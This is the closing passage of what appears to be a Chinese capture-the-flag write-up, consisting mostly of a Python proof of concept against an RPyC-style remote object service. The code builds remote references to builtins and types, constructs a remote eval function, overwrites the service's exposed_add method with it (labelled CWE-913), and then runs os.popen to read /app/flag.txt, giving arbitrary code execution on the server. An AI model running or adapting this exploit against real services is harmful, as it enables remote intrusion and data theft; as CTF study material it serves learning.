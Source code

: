 ```py
    remote_globals[name] = netref

print("create netrefs for types to create remote function malicously")
remote_types = remote_builtins['__import__']("types")
remote_types_CodeType = netref_getattr(remote_types, 'CodeType')
remote_types_FunctionType = netref_getattr(remote_types, 'FunctionType')

print('remote eval function constructed')
remote_eval_codeobj = get_code(remote_types_CodeType, myeval, filename='test_code.py', name='__code__')
remote_eval = remote_types_FunctionType(remote_eval_codeobj, remote_globals)
# PoC CWE-913: modify the exposed_nop of service
#   by binding various netrefs in this execution frame, they are cached in
#   the remote address space. setattr and eval functions are cached for the life
#   of the netrefs in the frame. A consequence of Netref classes inheriting
#   BaseNetref, each object is cached under_local_objects. So, we are able
#   to construct arbitrary code using types and builtins.

# use the builtin netrefs to modify the service to use the constructed eval func
remote_setattr = remote_builtins['setattr']
remote_type = remote_builtins['type']
remote_setattr(remote_type(conn.root), 'exposed_add', remote_eval)

flag = conn.root.add('__import__("os").popen("cat /app/flag.txt").read()')
print(flag)
```

## 结语:

希望大家喜欢以及有所收获,另外如果有错误欢迎指出私信以及邮箱都可,十分感谢!